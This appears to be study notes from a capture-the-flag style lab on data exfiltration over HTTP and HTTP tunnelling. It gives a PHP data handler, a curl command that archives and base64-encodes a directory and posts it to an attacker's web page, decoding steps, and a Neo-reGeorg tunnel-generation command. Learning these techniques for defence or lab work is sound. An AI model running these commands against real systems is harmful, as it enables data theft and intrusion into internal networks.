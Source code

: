 ##### HTTP POST Request

Using HTTP makes it hard to distinguish between the attacker's traffic and a regular one, some of the benefits of using POST requests are:

- Never cached
- do not remain in the browser history
- cannot be bookmarked
- have no restrictions on data lengths

An attacker can control a web server somewhere in the cloud, than an agent or command is executed from a compromised machine to send data over the internet, the attacker than logs in to the web server to get the data.

##### HTTP Data Exfiltration

Steps to exfiltrate data:

1. Set a web server with data handler, for example site.com with contact.php page as data handler.
2. A C2 agent or an attacker sends the data, for example with curl.
3. The web server receives the data and stores it.
4. The attacker logs in to the web server to receive a copy of the received data.

PHP code to handle POST request and save the data to the /tmp directory:

```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

`curl --data "file=$(tar zcf - task6 | base64)" <web page>` - Use the `curl` command and the `--data` argument to create a POST request via the `file` parameter.

`sudo sed -i 's/ /+/g' /tmp/http.bs64` - On the attacker machine fix the broken base64.
`cat /tmp/http.bs64 | base64 -d | tar xvfz -` - Extract the file.

##### HTTPS Communication

With HTTPS we transmit all the data with SSL keys stored on a server.

##### HTTP Tunneling

This tunneling techniques encapsulates other protocols and sends them back and forth via the HTTP protocol, with this technique we can pivot between web servers on the network.

[Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) is a tool to establish communication channel to access the internal network devices.

`python3 neoreg.py generate -k thm` - Generate an encrypted client file to upload it to the victim web server with thm key.

Now you will need to upload a tunnel PHP file to the target web server.
